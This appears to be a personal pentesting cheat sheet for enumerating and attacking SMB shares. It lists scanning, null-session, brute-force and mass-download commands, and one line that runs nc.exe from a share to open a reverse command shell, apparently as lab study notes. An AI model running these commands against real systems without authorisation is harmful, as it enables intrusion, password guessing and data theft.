 
![[Pasted image 20221208053454.png]]


# enumerating SMB 
```bash

# smbclient
smbclient -L //$IP/ ##to check for directories without logging in 
smbclient //$IP/Directory # login without auth
echo exit | smbclient -L \\\\[ip]
smbclient \\\\[ip]\\[share name]

# Others

Enumerate Hostname : nmblookup -A [ip] 

nmap --script smb-enum-shares -p 139,445 [ip] # Or smbb-enum-users

nmap --script smb-vuln* -p 139,445 [ip] # Check for Vulnerabilities - 

nmap --script smb-protocols -p 139,445 [ip] # Check for Vulnerabilities - 

smbmap -H [ip/hostname]

smbmap -u guest -p "" -d . -H IP

smbmap -H [ip/hostname]

Overall Scan - enum4linux -a [ip] 

smbver.sh [IP] (port) [Samba] # Manual Inspection

rpccclient -U "" -N IP
# Inside rpc
srvinfo # check info about target
enumdomusers # check users
lookupnames NAME # check for user 
enumdomgroups

# Metasploit
use auxiliary/scanner/smb/smb2
use auxiliary/scanner/smb/smb_version
use auxiliary/scanner/smb/smb_enumshares
use auxiliary/scanner/smb/pipe_auditor # pipe search

-U # Username
-N #Force to not use password aka NULL session attack
get flag_1 - # read file
```
	

# Nbtstat ( Windows )
![[Pasted image 20221123163002.png]]
```powershell
nbtstat -A <IP>

Unique # Only 1 Ip assigned to the machine
<00>   # Workstation 
<20>   # File share is running 

```

## NET VIEW 

![[Pasted image 20221123163219.png]]
```
NET VIEW <target IP>
```

## Linux
![[Pasted image 20221123163345.png]]
```bash
nmblookup -A <Target IP>

```


# SMB server
smbserver.py NAME $(DIR) -smb2support -user USER -password password
exde1234
```
smbserver.py share DIRECTORY # Start Smbserver



# Connect back to smb server (Windows)

\\IP\SHARE\nc.exe -e cmd.exe IP PORT
```




# connect smb windows
$pass = convertto-securestring 'exde1234' -AsPlainText -Force
$cred = New-Object System.Management.Automation.PSCredential ('super', $pass)
New-PSDrive -Name super -PSProvider FileSystem -Credential $cred -Root \\10.10.17.185\super


# Download everything in share

```
prompt off
recurse on
ls
mget *
```

# Brute-Force 

```bash
# Metasploit
use axuilary/scanner/smbb/smb_login # bruteforce 
```

# Check for shares permissions

```
smbmap -H demo.ine.local
```

# Enum4linux
```bash
enum4linux -s ~/Desktop/wordlists/100-common-passwords.txt demo.ine.local # brute force directory name

enum4linux -U <IP> # enum users

-P # Password policy
-o # OS info
-l # ldap
-a # ALL 

```